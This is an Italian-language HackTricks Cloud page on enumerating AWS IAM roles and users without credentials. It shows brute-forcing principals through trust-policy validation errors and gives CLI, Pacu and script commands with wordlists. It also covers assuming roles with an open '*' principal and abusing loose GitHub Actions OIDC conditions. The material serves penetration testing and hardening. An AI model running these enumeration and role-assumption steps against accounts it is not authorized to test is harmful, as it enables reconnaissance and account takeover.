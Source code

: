 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository su github.

</details>
{% endhint %}

## Enumerare Ruoli e Nomi Utente in un account

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**Questa tecnica non funziona** più poiché se il ruolo esiste o meno si ottiene sempre questo errore:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Puoi **testarlo eseguendo**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Tentare di **assumere un ruolo senza le necessarie autorizzazioni** attiva un messaggio di errore AWS. Ad esempio, se non autorizzato, AWS potrebbe restituire:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Questo messaggio conferma l'esistenza del ruolo ma indica che la sua policy di assunzione del ruolo non permette la tua assunzione. Al contrario, cercare di **assumere un ruolo inesistente porta a un errore diverso**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interessantemente, questo metodo di **distinguere tra ruoli esistenti e non esistenti** è applicabile anche tra diversi account AWS. Con un ID account AWS valido e una wordlist mirata, si possono enumerare i ruoli presenti nell'account senza affrontare limitazioni intrinseche.

Puoi usare questo [script per enumerare potenziali principal](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) abusando di questo problema.

### Trust Policies: Brute-Force Cross Account roles and users

Configurare o aggiornare la **trust policy di un ruolo IAM comporta la definizione di quali risorse o servizi AWS sono autorizzati ad assumere quel ruolo** e ottenere credenziali temporanee. Se la risorsa specificata nella policy **esiste**, la trust policy viene salvata **con successo**. Tuttavia, se la risorsa **non esiste**, viene generato un **errore**, indicando che è stato fornito un principal non valido.

{% hint style="warning" %}
Nota che in quella risorsa potresti specificare un ruolo o utente cross account:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Questo è un esempio di policy:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Questo è l'**errore** che troverai se usi un **ruolo che non esiste**. Se il ruolo **esiste**, la policy sarà **salvata** senza alcun errore. (L'errore è per l'aggiornamento, ma funziona anche durante la creazione)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Puoi automatizzare questo processo con [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Oppure usando [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Il ruolo `admin` utilizzato nell'esempio è un **ruolo nel tuo account da impersonare** da pacu per creare le policy necessarie per l'enumerazione

### Privesc

Nel caso in cui il ruolo fosse configurato male e permettesse a chiunque di assumerlo:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
L'attaccante potrebbe semplicemente assumerlo.

## Federazione OIDC di Terze Parti

Immagina di riuscire a leggere un **Github Actions workflow** che sta accedendo a un **role** all'interno di **AWS**.\
Questa fiducia potrebbe dare accesso a un ruolo con la seguente **trust policy**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Questa trust policy potrebbe essere corretta, ma la **mancanza di ulteriori condizioni** dovrebbe farti diffidare.\
Questo perché il ruolo precedente può essere assunto da **CHIUNQUE da Github Actions**! Dovresti specificare nelle condizioni anche altre cose come il nome dell'organizzazione, il nome del repository, l'ambiente, il branch...

Un'altra potenziale configurazione errata è **aggiungere una condizione** come la seguente:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Nota il **wildcard** (\*) prima del **colon** (:). Puoi creare un'organizzazione come **org\_name1** e **assumere il ruolo** da una Github Action.

## Riferimenti

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}
